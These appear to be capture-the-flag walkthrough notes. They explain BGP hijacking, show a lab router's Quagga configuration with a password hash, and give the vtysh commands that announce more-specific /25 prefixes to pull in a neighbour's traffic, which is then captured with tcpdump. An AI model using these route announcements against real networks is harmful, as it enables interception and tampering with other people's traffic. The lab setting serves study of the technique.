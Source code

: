 ### What Is BGP Hijacking?

BGP hijacking occurs when an AS announces IP address spaces belonging to another AS. This announcement attracts traffic meant for that IP address range.

Other common names for BGP hijacking are:

- **Prefix** hijacking.
- **Route** hijacking.
- **IP** hijacking.

BGP hijacking occurs when someone or something corrupts the routing tables maintained by AS routers. This corruption enables a backbone router to improperly advertise as having the most efficient route to a network.

Since BGP always favors the shortest path to the desired IP address, anyone looking to cause a BGP hijack must create a route announcement that either:

- Provides a more specific route with a smaller range of IP addresses than other ASes.
- Offers a shorter route to certain blocks of IP addresses.

Both strategies require the hacker to either control an AS router or compromise one of approx. 80,000 currently operational ASes. This process is easier said than done, which is why most malicious BGP hijacks are the work of highly skilled and well-funded hacker groups.

BGP hijacking enables attackers to reroute Internet traffic to the wrong destination or route. Rerouting traffic enables a threat actor to intercept, spy on, or tamper with transmitted data.

![How BGP hijacks work](https://phoenixnap.com/blog/wp-content/uploads/2023/11/how-bgp-hijacks-work.jpg)

The easiest way to understand BGP hijacking is to compare it to someone secretly changing all the signs on a stretch of freeway and rerouting traffic onto incorrect exits.

![[Pasted image 20240417143321.png]]

### Quagga

You saw “quagga” mentioned in the Router exploration section , but what is quagga ?  
Basically quagga is a routing software and since quagga is installed on this host then most likely we are going to perform bgp-hijacking or route-hijacking.

You can see there are two configuration files:\

#### /etc/quagga/bgpd.conf

```
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

This router is AS 60001
There are another 2 AS:

60002 and 60003

### Configuration with VTYSH

VTYSH provides a unified command-line interface for managing multiple network services and protocols, such as routing protocols (e.g., BGP, OSPF) and network configuration settings.

When you enter the "vtysh" command, you're essentially accessing a shell environment where you can interact with the networking device and configure various aspects of its operation, such as routing tables, network interfaces, and protocol settings.

Run:

```
$ vtysh
```

router1.ctx.ctf# $ 

 Once into vtysh run the following to see the neighbors:

```
 $ show bgp neighbors

```

> BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
> ...
> BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
> ...


#### Routing tables

Run:

```
 $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

> ![[bgp.png]]

You can see there are two networks 172.16.1.0/24 and 172.16.3.0/24, so if you get connected to the 172.16.2.0/24 you'd intercept all traffic.

Run the following commands:

```
$ configure terminal
router1.ctx.ctf(config)# $ router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25

```

Exit the terminal with the two `exit` commands.

See how the configuration has changed:

```
router1.ctx.ctf# $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

![[bgp1.png]]

You can see there's a new AS 60003. 

> [!NOTE] Address 172.16.2.0/25
>   
The network address "172.16.2.0/25" represents a subnet with the following characteristics:

> - Network Address: 172.16.2.0
> - Subnet Mask: 255.255.255.128 (/25 in CIDR notation)
> - Usable IP Range: 172.16.2.1 to 172.16.2.126
> - Broadcast Address: 172.16.2.127
> 
> In CIDR notation (/25), the subnet mask has 25 leading bits set to 1, indicating the network portion of the address, and the remaining 7 bits set to 0, allowing for 128 possible host addresses in the subnet.
> 
> This subnet falls within the private IP address range defined by RFC 1918, commonly used in local area networks (LANs) for internal communication.



![[Diagram1.svg]]


### Capturing packets with tcpdump


You're telling `tcpdump` to capture packets on the `eth0` interface and print each packet's content in ASCII format, including both the packet header and payload.

- The `-i` option, it specifies the network interface to capture packets from. In your command, `eth0` is the network interface specified.

- The `-A` option tells `tcpdump` to print each packet in ASCII format, displaying both the packet's header and its payload as ASCII characters.

#### Run tcdump on the vsFTPd 2.3.4 Exploitation shell

```
$ tcpdump -i eth0 -A

```


[[TCP flag]]
[[UDP flag]]
